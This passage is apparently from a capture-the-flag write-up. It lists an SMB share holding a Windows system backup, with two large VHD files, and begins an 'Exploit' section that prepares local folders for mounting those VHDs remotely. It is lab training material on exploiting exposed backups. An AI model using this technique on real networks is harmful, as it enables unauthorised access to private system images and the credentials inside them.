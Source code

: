 ```
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019
  XQFOZPGGAU                          D        0  Sun Jan 16 12:08:59 2022

                7735807 blocks of size 4096. 2707132 blocks available
smb: \> more note.txt
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

Looking at the contents of ```\WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351```, we are able to find a VHD file. This VHD file could then be mounted back to our local filesystem.

```
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls                                                                        
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 07:44:03 2019                                                                    
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 07:45:32 2019 
```

## Exploit
### Mounting Filesystem

Looking at the size of the VHD files, the size of the files are too big to actually copy the contents over to our local machine. Hence, we will try to mount the VHD files onto our local machine instead.

```
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> dir
  .                                  Dn        0  Fri Feb 22 07:45:32 2019   
  ..                                 Dn        0  Fri Feb 22 07:45:32 2019                                                                 
  9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd     An 37761024  Fri Feb 22 07:44:03 2019                                                                    
  9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd     An 5418299392  Fri Feb 22 07:45:32 2019
```

Before we start to mount the VHD files onto our local machine, let's us create a mnt folder on our Desktop. Next, let us navigate to the mnt folder and create 2 other folders, remote folder and a vhd folder.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ mkdir mnt          
                       
┌──(kali㉿kali)-[~/Desktop]
└─$ cd mnt    
                        
┌──(kali㉿kali)-[~/Desktop/mnt]
└─$ mkdir remote
                     
┌──(kali㉿kali)-[~/Desktop/mnt]
└─$ mkdir vhd     

┌──(kali㉿kali)-[~/Desktop/mnt]
└─$ ls               
remote  vhd
```
